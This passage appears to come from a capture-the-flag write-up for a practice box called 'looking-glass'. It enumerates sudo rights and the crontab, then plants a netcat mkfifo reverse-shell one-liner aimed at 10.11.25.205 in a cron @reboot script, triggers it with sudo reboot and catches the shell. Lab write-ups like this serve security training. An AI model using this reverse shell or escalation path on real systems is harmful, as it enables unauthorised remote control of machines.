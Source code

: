 Checking sudo privileges.

```bash
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```

Checking cron.

```bash
jabberwock@looking-glass:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

We can make our reverse shell and put it at `twasBrillig` file!

```bash
jabberwock@looking-glass:~$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.25.205 9999 >/tmp/f" > twasBriilig.sh
```

Set up our netcat listener and run `reboot` as sudo to the machine.

```bash
$ nc -lnvp 9999
listening on [any] 9999 ...
```

Got our shell back!

```
$ nc -lnvp 9999
listening on [any] 9999 ...
ls
connect to [10.11.25.205] from (UNKNOWN) [10.10.244.33] 46488
/bin/sh: 0: can't access tty; job control turned off
$ humptydumpty.txt
poem.txt
```
